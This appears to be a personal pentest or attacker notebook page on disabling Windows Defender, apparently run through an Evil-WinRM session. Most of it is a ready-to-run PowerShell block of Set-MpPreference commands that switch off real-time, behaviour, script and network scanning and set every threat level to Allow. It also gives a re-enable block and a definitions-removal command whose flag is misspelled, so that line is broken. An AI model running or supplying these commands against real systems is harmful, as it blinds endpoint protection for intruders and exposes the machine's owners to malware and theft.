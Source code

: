 # Disabling Windows Defender
There are a couple of way I do this. the first one is to just shut every thing off. I wuil generally use Evil WinRM for this. This will make registry changes and the changes should be immediate.
```Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Allow -ErrorAction SilentlyContinue
```
The following will turn it back on.
```Set-MpPreference -DisableArchiveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Block -ErrorAction SilentlyContinue
```

The other way to do this is to revomve the Definitions File. This should disable Windows Defenders ability to detect anything.

```C:\Program Files\Windows Defender\MpCmdRun.exe -RevoveDefinitions
```
